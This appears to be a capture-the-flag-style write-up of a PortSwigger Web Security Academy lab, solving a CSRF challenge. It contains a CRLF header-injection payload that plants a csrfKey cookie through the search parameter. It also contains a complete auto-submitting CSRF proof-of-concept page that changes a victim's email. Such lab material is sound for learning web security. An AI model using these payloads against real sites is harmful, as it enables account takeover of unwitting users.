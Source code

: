 We obtained csrfKey and csrf value with an another user. So we can change email address with valid keys.

Obtained keys:

csrfKey=9Lz92TCDDpco7KZk7sH5s8DGsskKG9sZ; csrf value=qmTs9BViTSDgDcsP3zEJ12luELhW0VNT

We have to inject our csrfKey cookie to the user session.

In search function in website, we can see the way.

**Search -> test**

```
GET /?search=test HTTP/1.1
In response:
Set-Cookie: LastSearchTerm=test;
```

There is no filter for search. So we can use search func to inject our csrfKey cookie value.

```
/?search=test%0d%0aSet-Cookie:%20csrfKey=9Lz92TCDDpco7KZk7sH5s8DGsskKG9sZ
In response:
Set-Cookie: csrfKey=9Lz92TCDDpco7KZk7sH5s8DGsskKG9sZ;
```

POST /my-account/change-email -> Engagements Tools -> CSRF PoC Generator -> Include Auto-Submit Script(checked) -> Regenerate -> Replace CSRF value -> Replace script part as follows -> Copy HTML

**Exploit Server ->**

```
Body:

  <html>
    <!-- CSRF PoC - generated by Burp Suite Professional -->
    <body>
    <script>history.pushState('', '', '/')</script>
      <form action="https://ac221fed1ff074fdc03c5eae004b002e.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="test&#64;test&#46;com" />
        <input type="hidden" name="csrf" value="qmTs9BViTSDgDcsP3zEJ12luELhW0VNT" />
        <input type="submit" value="Submit request" />
      </form>
  	<img src="https://ac221fed1ff074fdc03c5eae004b002e.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=9Lz92TCDDpco7KZk7sH5s8DGsskKG9sZ" onerror="document.forms[0].submit()">
    </body>
  </html>
```

### Lab: CSRF where token is duplicated in cookie

This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

There is weak csrf validation. It checks just legit one, not the relevant with the user.
